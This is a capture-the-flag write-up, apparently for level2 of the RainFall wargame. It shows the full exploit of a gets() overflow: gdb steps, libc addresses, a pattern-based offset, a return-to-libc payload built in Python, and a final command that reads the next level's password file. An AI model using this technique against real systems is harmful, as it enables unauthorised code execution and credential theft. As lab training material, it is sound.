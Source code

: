 As seen in the disassembled code, the program uses the gets() function to take user input :

```
gdb ./level2
disass p
```

but this time we also see that check ensures that the return address is not overwritten with an address on the stack:

```
0x80484fb <p+39>:	and    eax,0xb0000000
0x8048500 <p+44>:	cmp    eax,0xb0000000
```
We find the address of the ret instruction:
```
0x804853e <p+106>:	ret
```

We will bypass this check using a return-to-libc exploit. First, we find the address of the system function in libc:
```
$> gdb ./level2
gdb> b main
gdb> r
gdb> p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
in little-endian : `\x60\xb0\xe6\xb7`

To get the "/bin/sh" string to pass in, were going to have find it inside of libc
```
(gdb) find &system, +9999999, "/bin/sh"
0xb7f8cc58
```
We need to determine the offset at which the buffer overflows with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
```
level2@RainFall:~$ gdb ./level2 
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()

```
We find that the buffer size is 80

Next, we need to construct the payload to exploit the vulnerability using the following format:
```
buffer + return address + system function address + fake return address + "/bin/sh" address from libc
```
```
$ (python -c "print 'A' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + 'AAAA' + '\x58\xcc\xf8\xb7'") > /tmp/payload2
$ cat /tmp/payload2 - | ./level2
$ cat /home/user/level3/.pass

```
